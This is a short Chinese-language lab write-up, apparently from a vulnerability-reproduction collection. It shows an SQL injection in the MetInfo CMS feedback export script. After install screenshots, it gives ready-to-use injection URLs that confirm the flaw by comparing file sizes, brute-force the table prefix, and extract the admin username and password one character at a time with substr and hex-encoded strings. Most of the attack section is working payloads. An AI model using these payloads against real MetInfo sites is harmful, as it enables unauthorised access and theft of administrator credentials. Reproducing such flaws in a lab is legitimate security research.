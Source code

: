 
# 实战
在浏览器输入
```
http://IP:PORT/install/
```
## 安装

![image]({path}/1.png)

![image]({path}/2.png)

![image]({path}/3.png)

![image]({path}/4.png)



## 攻击实战

其中met_为我实验环境metinfo的前缀（若要复测请根据实际情况修改）， admin_id=0x61646d696e 为字符串'admin'(过滤了单引号)

```
http://192.168.1.170:7777/admin/content/feedback/export.php?met_parameter_1=met_admin_table where admin_id=0x61646d696e -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter
```

然后测试一组错误的,把'admin'改成'admil'试试

```
http://192.168.1.170:7777/admin/content/feedback/export.php?met_parameter_1=met_admin_table where admin_id=0x61646d696c -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter
```

![image]({path}/5.png)

![image]({path}/6.png)

可以看到两个文件的大小是不一样



**step1：暴力破解metinfo前缀**
用brup进行破解，这个不用我多解释了把，根据返回大小


```
http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter
```




**step2： 破解admin账户**

还是brup，用substr 一个个来


```
http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table where substr(admin_id,1,1)=0x61 -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter
```




**step3：破解admin密码**

同上


```
http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table where admin_id=0x61646d696e and substr(admin_pass,1,1)=0x32 -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter
```
